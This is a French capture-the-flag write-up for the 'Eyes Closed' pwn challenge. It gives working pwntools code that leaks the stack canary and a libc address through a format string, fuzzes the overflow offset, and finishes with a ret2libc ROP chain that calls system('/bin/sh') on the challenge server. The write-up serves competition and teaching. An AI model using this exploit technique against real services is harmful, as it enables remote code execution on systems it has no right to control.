

Eyes Closed | Hackrocks & HackArmour CTF 2022 | Catégorie Pwn | [Vozec/FR] & [Electro/FR]
May 22, 2022
Eyes Closed | Hackrocks & HackArmour CTF 2022
Necessaires
- Netcat
- Python3 (+ pwntool)
Flag
flag{br0p0p0p0p0_with_f0rm4t_$7ringggg}
Solution détaillée
Le but du challenge est d’exploiter une format string puis d’utiliser un buffer overflow pour ainsi construire une ropchain et ainsi pouvoir prendre le contrôle du binaire grâce à une attaque ret2libc.
Un peu d’explication :
La méthode finale est la même que dans un de mes précédents article . Ce Writeup va donc se focaliser sur la partie Blind du challenge ainsi que l’exploitation des formats strings
Découverte du challenge :
Seule une connexion TCP nous ai donné
root@DESKTOP-HNQJECB: /c
➜ nc warzone.hackrocks.com 7772
close your eyes and imagine something
tell me, what did you see?:
INPUT1
a INPUT1 ?nice one
please, give me a feedback:
INPUT2
thanks, see you later
Une première chose qui saute au yeux est que notre première entrée est réfléchis .
Voici ce que l’on obtient si on envoie des formats strings : %p.%p.%p.%p.%p.%p.%p.%p
close your eyes and imagine something
tell me, what did you see?:
%p.%p.%p.%p.%p.%p.%p.%p
a 0x7ffdfbc1c8f0.(nil).(nil).0x17.0xffffffffffffff88.0x70252e70252e7025.0x252e70252e70252e.0x70252e70252e70 ?nice one
please, give me a feedback:
On a donc un leak directement dans la mémoire du binaire !
La description du challenge nous informe sur les sécurités du binaire exécuté à distance :
- Canary :
ON - NX :
ON - PIE :
ON - RELRO :
ON
On va donc essayer de contourner la protection : Canary
Explication de la protection Canary
Imaginons un buffer de 60 caractères , un canary est un octet qui va se positionner en 61ème place et qui va contrôler qu’aucun débordement de mémoire n’a lieu :
-
Mémoire Classique: [———-MA-MEMOIRE———] [—-CANARY—-] [—-SUITE—-] -
Mémoire Avec un overflow: [AAAAAAAAAAAAAAAAAAAAAAAAAAAAA] AAAAAA [—-CANARY—-][—-SUITE—-]_
Ici , la place du Canary a était modifié de +6 avec un Overflow et la protection va se déclencher et arrêter le programme.
On devine que la 2nd entrée est vulnérable à un Buffer Overflow . On peut être en évidence la protection Canary :

*** stack smashing detected ***: terminated
[1] 373 abort ./eyes_closed
Leak de la mémoire :
On peut donc écrire un programme pour faire leak la mémoire et localiser le Canary :
from pwn import *
context.log_level = 'critical'
url = 'warzone.hackrocks.com'
port = 7772
def Get_proc(): return remote(url,port)
def Dump_stack(string=False):
print(" [+] Leaking all the Stack ...\n")
for _ in range(200):
proc = Get_proc()
proc.recvuntil(b'what did you see?:')
payload = b''
if(string):
payload += b"AAAA....%%%d$p....%%%d$s" % (_,_)
else:
payload += b"AAAA....%%%d$p" % _
proc.sendline(payload)
proc.recvline()
res = proc.recvline().split(b' ')[1]
print("%s - %s"%(_,res))
proc.close()
Dump_stack(True)
root@DESKTOP-HNQJECB: /c
➜ python3 writeup.py
[+] Leaking all the Stack ...
0 - b'AAAA....%0$p'
1 - b'AAAA....0x7ffea4af1bd0'
2 - b'AAAA....(nil)'
3 - b'AAAA....(nil)'
4 - b'AAAA....0xc'
5 - b'AAAA....0xffffffffffffff88'
6 - b'AAAA....0x2e2e2e2e41414141'
7 - b'AAAA....0x70243725'
8 - b'AAAA....(nil)'
9 - b'AAAA....(nil)'
10 - b'AAAA....(nil)'
11 - b'AAAA....(nil)'
12 - b'AAAA....(nil)'
13 - b'AAAA....(nil)'
14 - b'AAAA....(nil)'
15 - b'AAAA....(nil)'
16 - b'AAAA....(nil)'
17 - b'AAAA....0x2009005'
18 - b'AAAA....0x7ffe2116c788'
19 - b'AAAA....0xb'
20 - b'AAAA....0x1'
21 - b'AAAA....(nil)'
22 - b'AAAA....0x2009005'
23 - b'AAAA....0x7fbecbe9b6fe'
24 - b'AAAA....(nil)'
25 - b'AAAA....0x1800000'
26 - b'AAAA....0x800'
27 - b'AAAA....0x40'
28 - b'AAAA....0x8000'
29 - b'AAAA....0x8'
30 - b'AAAA....0x40'
31 - b'AAAA....0x40'
32 - b'AAAA....(nil)'
33 - b'AAAA....(nil)'
34 - b'AAAA....0x7fff92e37fd9'
35 - b'AAAA....(nil)'
36 - b'AAAA....(nil)'
37 - b'AAAA....(nil)'
38 - b'AAAA....(nil)'
39 - b'AAAA....(nil)'
40 - b'AAAA....(nil)'
41 - b'AAAA....(nil)'
42 - b'AAAA....(nil)'
43 - b'AAAA....0x5588e59d12c5'
44 - b'AAAA....(nil)'
45 - b'AAAA....0x56526d234280'
46 - b'AAAA....(nil)'
47 - b'AAAA....0x559eb6193090'
48 - b'AAAA....0x7ffc04377b40'
49 - b'AAAA....0xf0285d4279221400'
50 - b'AAAA....(nil)'
51 - b'AAAA....0x7f8f920d27ed'
52 - b'AAAA....0x7ffd40923768'
53 - b'AAAA....0x137775000'
54 - b'AAAA....0x564e0e625175'
55 - b'AAAA....0x7ffd9f160ba9'
56 - b'AAAA....0x560d50fbc280'
57 - b'AAAA....0x4516be6f0cfd5015'
58 - b'AAAA....0x55d29e896090'
BINGO ! On sait qu’un Canary se termine pas 00 . On repère donc la l’offset 49
On peut le vérifier en faisant leaker la 49ème valeur. Elle se termine à chaque fois par 00
def Verif_Canary(offset):
for _ in range(10):
try:
proc = Get_proc()
proc.recvuntil(b'what did you see?:')
proc.sendline(b"%%%d$p" % offset)
proc.recvline()
res = proc.recvline().split(b' ')[1]
print("Test %s - %s"%(_,res))
proc.close()
except:
pass
Verif_Canary(49)
Résulat :
root@DESKTOP-HNQJECB: /c
➜ python3 writeup.py
Test 0 - b'0x3a3baf68538ce400'
Test 1 - b'0x1bed75a7af3e8700'
Test 2 - b'0x17bdade8c75b1400'
Test 3 - b'0xfcfee3f27277b800'
Test 4 - b'0x9ac856b2e0729100'
Test 5 - b'0x631bea7f077e2500'
Test 6 - b'0xcf3631335f3ddf00'
Test 7 - b'0x9284289d275e4f00'
Test 8 - b'0x8ccbd313f0140600'
Test 9 - b'0x881a52aa94b22b00'
On peut écrire une fonction pour faire leak les adresses rapidement en fonction de l’offset :
def Leak_addr(all_leak,proc):
proc.recvuntil(b'tell me, what did you see?:')
payload = ''
for leak in all_leak:
payload += f'%{leak}$p.'
proc.sendline(bytes(payload[:-1],'utf-8'))
proc.recvline()
res = proc.recvline().decode().split(' ')[1]
return res.split('.')
offset_canary = 49
proc = Get_proc()
canary = Leak_addr([offset_canary],proc)
Essayer maintenant de trouver ou se place le canary sur le buffer de la 2nd entrée :
def Fuzz_overflow():
offset = -1
for _ in range(100):
proc = Get_proc()
proc.recvuntil(b'what did you see?:')
proc.sendline(b'A')
proc.recvline()
proc.sendline(b'A'*_*8)
resp = proc.recvall(timeout = 0.2).decode().strip().replace('\n',' | ')
print(_,' | ',resp)
if("stack smashing detected" in resp):
offset = _
return offset
35 | a A ?nice one | please, give me a feedback: | thanks, see you later
36 | a A ?nice one | please, give me a feedback: | thanks, see you later
37 | a A ?nice one | please, give me a feedback: | thanks, see you later
38 | a A ?nice one | please, give me a feedback: | thanks, see you later
39 | a A ?nice one | please, give me a feedback: | thanks, see you later
40 | a A ?nice one | please, give me a feedback: | thanks, see you later | *** stack smashing detected ***: terminated
41 | a A ?nice one | please, give me a feedback: | thanks, see you later | *** stack smashing detected ***: terminated
42 | a A ?nice one | please, give me a feedback: | thanks, see you later | *** stack smashing detected ***: terminated
43 | a A ?nice one | please, give me a feedback: | thanks, see you later | *** stack smashing detected ***: terminated
On sait donc que la buffer est de taille 39 et que le canary se place juste après à la position 40
L’attaque Ret2Libc
Nôtre idée était de trouver la libc utiliser et de faire Leak une fonction telle que puts ou printf
Pour se faire , voici le pattern que nous avons utilisé pour chercher les adresses du programmes :
- [ Padding du buffer de 39char ] + [ Canary ] +[ BBBBBBBB ](=rbp) + [ Addresse ]
Ainsi de cette manière , nous avons exécuté des attaques Ret2Win à la recherche de printf Malhereusement , nous n’avons pas trouvé ces fonctions dans le binaire . Il y a une raison trés simple … Nous n’étions pas dans le binaire mais dans la libc .
Pourtant une chose nous à servis pour la suite :
def Leak_puts():
for x in range(-1000,1000):
proc = Get_proc()
canary,libc_start_main_ret = Leak_addr([49,51],proc)
proc.recvline()
payload = b'A'*39*8
payload += p64(int(canary,16))
payload += p64(int(libc_start_main_ret,16))
payload += p64(int(libc_start_main_ret,16)+ x)
proc.sendline(payload)
response = proc.recvall(timeout = 0.5).strip()
print(x,' | ',response)
Leak_puts()
Résultat :
303 | b'thanks, see you later'
304 | b'thanks, see you later'
305 | b'thanks, see you later\n*** stack smashing detected ***: terminated'
306 | b'thanks, see you later'
307 | b'thanks, see you later\n*** stack smashing detected ***: terminated'
308 | b'thanks, see you later'
309 | b'thanks, see you later'
310 | b'thanks, see you later'
311 | b'thanks, see you later'
312 | b'thanks, see you later\n*** stack smashing detected ***: terminated'
313 | b'thanks, see you later\nGNU C Library (Debian GLIBC 2.33-1) release release version 2.33.\nCopyright (C) 2021 Free Software Foundation, Inc.\nThis is free software; see the source for copying conditions.\nThere is NO warranty; not even for MERCHANTABILITY or FITNESS FOR A\nPARTICULAR PURPOSE.\nCompiled by GNU CC version 10.3.1 20211117.\nlibc ABIs: UNIQUE IFUNC ABSOLUTE\nFor bug reporting instructions, please see:\n<http://www.debian.org/Bugs/>.'
314 | b'thanks, see you later'
315 | b'thanks, see you later\nGNU C Library (Debian GLIBC 2.33-1) release release version 2.33.\nCopyright (C) 2021 Free Software Foundation, Inc.\nThis is free software; see the source for copying conditions.\nThere is NO warranty; not even for MERCHANTABILITY or FITNESS FOR A\nPARTICULAR PURPOSE.\nCompiled by GNU CC version 10.3.1 20211117.\nlibc ABIs: UNIQUE IFUNC ABSOLUTE\nFor bug reporting instructions, please see:\n<http://www.debian.org/Bugs/>.'
316 | b'thanks, see you later'
317 | b'thanks, see you later'
318 | b'thanks, see you later'
319 | b'thanks, see you later\n*** stack smashing detected ***: terminated'
320 | b'thanks, see you later'
321 | b'thanks, see you later'
322 | b'thanks, see you later'
Hourra ! Nous avons la libc : (Debian GLIBC 2.33-1) release release version 2.33 !
Plus exactement : libc6_2.28-10deb10u1_amd64.so
Finalisation
Maintenant que nous avons la libc , il nous faut trouver la base de celle exécuté en remote ou trouver un leak .
Nous avons pris du temps à réaliser que l’adresse après la PIE , elle même après le Canary était en faite l’adresse libc_start_main_ret et non rip comme nous pensions .
Grâce à libc-database , on peut trouver l’offset pour obtenir la base de la libc
./dump libc6_2.28-10+deb10u1_amd64 __libc_start_main_ret
offset___libc_start_main_ret = 0x2409b
Voici le script final avec un Ret2Libc similaire à mon précédent writeup .
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *
context.update(arch="amd64", os="linux")
libc = ELF('./libc6_2.28-10deb10u1_amd64.so')
url = 'warzone.hackrocks.com'
port = 7772
def Get_proc(): return connect(url,port)
def Leak_addr(all_leak,proc):
proc.recvuntil(b'tell me, what did you see?:')
payload = ''
for leak in all_leak:
payload += f'%{leak}$p.'
proc.sendline(bytes(payload[:-1],'utf-8'))
proc.recvline()
res = proc.recvline().decode().split(' ')[1]
return res.split('.')
proc = Get_proc()
offset_canary = 49
offset__libc_start_main_ret = 51
canary , libc_leak = Leak_addr([offset_canary,offset__libc_start_main_ret],proc)
libc.address = int(libc_leak,16) - 0x2409b
print('Canary : '+hex(int(canary,16)))
print('Libc : '+hex(libc.address))
rop = ROP(libc)
pop_rdi = rop.find_gadget(['pop rdi', 'ret'])[0]
ret = rop.find_gadget(['ret'])[0]
payload = b''
payload += b'A'*(8*39)
payload += p64(int(canary,16))
payload += b'B'*8
payload += p64(pop_rdi)
payload += p64(next(libc.search(b'/bin/sh\x00')))
payload += p64(ret)
payload += p64(libc.sym['system'])
proc.sendline(payload)
proc.interactive()
Maintenant On a le Flag !
